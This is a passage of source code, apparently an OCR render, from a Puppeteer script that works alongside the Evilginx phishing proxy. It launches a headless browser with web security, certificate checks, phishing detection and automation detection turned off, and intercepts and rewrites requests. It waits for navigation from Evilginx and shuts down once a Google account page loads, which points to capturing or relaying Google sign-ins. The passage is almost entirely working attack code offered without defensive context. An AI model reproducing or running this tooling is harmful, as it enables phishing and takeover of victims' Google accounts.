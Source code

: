 ```
    } catch (error) {
      console.error(`[INTERCEPT ERROR] ${request.url}:`, error);
      await client.send('Network.continueInterceptedRequest', { interceptionId });
    }
  });
}

async function launchBrowserAndMonitor() {
  console.log('[INFO] Launching browser with CDP enabled.');
  const browser = await puppeteer.launch({
    headless: true,
    defaultViewport: null,
    devtools: true,
    args: [
      '--no-sandbox',
      '--disable-setuid-sandbox',
      '--ignore-certificate-errors',
      '--ignore-certificate-errors-spki-list',
      '--disable-web-security',
      '--allow-running-insecure-content',
      '--disable-features=IsolateOrigins,site-per-process',
      '--disable-blink-features=AutomationControlled',
      '--disable-infobars',
      '--enable-features=NetworkService',
      '--hide-scrollbars',
      '--mute-audio',
      '--disable-extensions',
      '--no-first-run',
      '--no-default-browser-check',
      '--disable-dev-shm-usage',
      '--disable-software-rasterizer',
      '--disable-background-networking',
      '--disable-background-timer-throttling',
      '--disable-backgrounding-occluded-windows',
      '--disable-client-side-phishing-detection',
      '--disable-sync',
      '--metrics-recording-only',
      '--disable-breakpad',
    ],
  });

  const page = await browser.newPage();
  const ws = await connectToWebSocket();

  await intercept(page, urlPatterns, transform);

  page.on('framenavigated', async (frame) => {
    const url = frame.url();
    console.log(`[NAVIGATED] ${url}`);

    if (url.includes('myaccount.google.com')) {
      console.log('[INFO] Detected myaccount.google.com. Closing browser...');
      await browser.close();
    }
  });

  console.log('[INFO] Waiting for navigation from Evilginx...');
}

startWebSocketServer();
launchBrowserAndMonitor().catch(console.error);

```